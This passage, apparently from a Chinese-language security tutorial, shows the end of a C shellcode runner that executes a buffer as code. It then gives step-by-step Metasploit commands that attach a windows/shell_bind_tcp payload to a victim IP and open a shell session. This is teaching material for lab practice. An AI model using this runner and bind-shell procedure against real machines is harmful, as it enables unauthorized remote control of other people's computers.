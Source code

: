 ```
    printf("Shellcode Length: %d\n", (int)strlen(code));
    int (*ret)() = (int(*)())code;
    ret();
}
```

然后，构建并运行它：

![](../images/00270.jpeg)

现在，它正在等待我们的连接。从我们的攻击机器启动 Metasploit：

```
$ msfconsole
```

然后，选择要连接到受害计算机的处理程序：

```
 $ use exploit/multi/handler
```

现在，选择我们的有效载荷，即`windows/shell_bind_tcp`：

```
$ set payload windows/shell_bind_tcp
```

然后，设置受害机器的 IP 地址：

![](../images/00271.jpeg)

现在，设置 rhost：

```
$ set rhost 192.168.129.128
```

那么，让我们开始：

```
$ run
```

在以下屏幕截图中可以看到前面命令的输出：

![](../images/00272.jpeg)

现在，会话从`session 1`开始：

```
$ session 1
```

在以下屏幕截图中可以看到前面命令的输出：

![](../images/00273.jpeg)

我们现在在受害者的机器里。退出此会话，让我们回到代码。因此，我们的最终代码应该如下所示：
